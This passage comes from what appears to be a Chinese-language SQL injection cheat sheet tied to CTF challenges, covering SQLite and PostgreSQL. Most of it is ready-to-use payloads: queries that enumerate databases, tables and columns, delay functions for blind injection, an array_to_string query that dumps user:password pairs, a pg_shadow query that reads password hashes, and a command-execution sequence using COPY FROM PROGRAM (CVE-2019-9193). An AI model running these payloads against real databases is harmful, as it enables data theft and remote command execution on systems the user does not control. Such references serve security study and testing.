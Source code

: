     - `SELECT name FROM sqlite_master WHERE type='table'`
- 爆表結構(含 Column)
    - `SELECT sql FROM sqlite_master WHERE type='table'`
- 其他
    - `sqlite_version()`
    - sqlite 無法使用 `\'` 跳脫單引號
    - `[]` 神奇用法
        - `CREATE TABLE a AS SELECT sql [ some shit... ]FROM sqlite_master;`
            - CREATE TABLE 後面也能接 SELECT condition
        - [zer0pts CTF 2020 - phpNantokaAdmin](https://github.com/w181496/CTF/tree/master/zer0pts2020/phpNantokaAdmin)
- Boolean Based: SECCON 2017 qual SqlSRF

<details><summary><b>Click here to view script</b></summary></details>

## PostgreSQL

- 子字串
    - `substr("abc", 1, 1) => 'a'`
- Ascii function
    - `ascii('x') => 120`
- Char function
    - `chr(65) => A`
- Concatenation
    - `||`
    - `'a' || 'b' => 'ab'`
- Delay function
    - `pg_sleep(5)`
    - `GENERATE_SERIES(1, 1000000)`
    - `repeat('a', 10000000)`
- 空白字元
    - `0A 0D 0C 09 20`
- encode / decode
    - `encode('123\\000\\001', 'base64')` => `MTIzAAE=`
    - `decode('MTIzAAE=', 'base64')` => `123\000\001`
- 不支援limit N, M
    - `limit a offset b` 略過前 b 筆，抓出 a 筆出來
- 註解
    - `--`
    - `/**/`
- $$ 取代引號
    - `SELECT $$This is a string$$`
- 爆庫名
    - `SELECT datname FROM pg_database`
- 爆表名
    - `SELECT tablename FROM pg_tables WHERE schemaname='dbname'`
- 爆Column
    - `SELECT column_name FROM information_schema.columns WHERE table_name='admin'`
- Dump all 
    - `array_to_string(array(select userid||':'||password from users),',')`
- 列舉 privilege
    - `SELECT * FROM pg_roles;`
- 列舉用戶 hash
    - `SELECT usename, passwd FROM pg_shadow`
- RCE
    - CVE-2019–9193
        - 在 9.3 版本實作了 `COPY TO/FROM PROGRAM`
        - 版本 9.3 ~ 11.2 預設啟用
        - 讓 super user 和任何在 `pg_read_server_files` 群組的 user 可以執行任意指令
        - 方法
            - `DROP TABLE IF EXISTS cmd_exec;`
            - `CREATE TABLE cmd_exec(cmd_output text);`
            - `COPY cmd_exec FROM PROGRAM 'id';`
            - `SELECT * FROM cmd_exec;`